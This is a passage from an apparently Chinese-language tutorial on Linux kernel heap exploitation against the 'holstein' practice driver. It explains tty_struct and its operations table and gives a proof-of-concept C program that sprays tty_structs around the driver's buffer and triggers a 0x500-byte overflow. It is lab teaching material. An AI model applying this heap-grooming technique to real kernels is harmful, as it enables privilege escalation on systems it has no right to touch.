 本次使用到的内核对象是tty_strcut（其大小通常在0x2c0左右），它在include/linux/tty.h中被定义。

这个结构体的几个比较重要的成员如下：

```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
    // ...
} __randomize_layout;
```

其中tty_operations *ops是一个定义了TTY中各种操作的对应函数的函数表。

可以通过下面这种方式创建一个PTY（伪终端）对：

```c
int ptmx = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```

这样就可以创建的伪终端就会对应创建一个tty_struct

当我们对于这个设备进行read，write等操作的时候就会调用前面说到的tty_operations *ops中对应的函数。

## POC

首先构建一个简单的POC结合GDB来看下堆溢出和堆喷后内存的布局：

```c
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

int main() {
  int spray[100];
  for (int i = 0; i < 50; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
  }

  int fd = open("/dev/holstein", O_RDWR);
  for (int i = 50; i < 100; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
  }
  char buf[0x500];
  memset(buf, 'A', 0x500);
  write(fd, buf, 0x500);
  close(fd);
}
```

POC比较简单，就是按照之前讲的思路在目标驱动holstein前后各喷射了50个tty_struct。这样大概率会出现的内存布局即是在这个fd对应的内存位置上会出现前后都是tty_strcut的情况。

首先关闭所有防护并以root进入系统，看下这个漏洞驱动的module_write函数的具体位置：
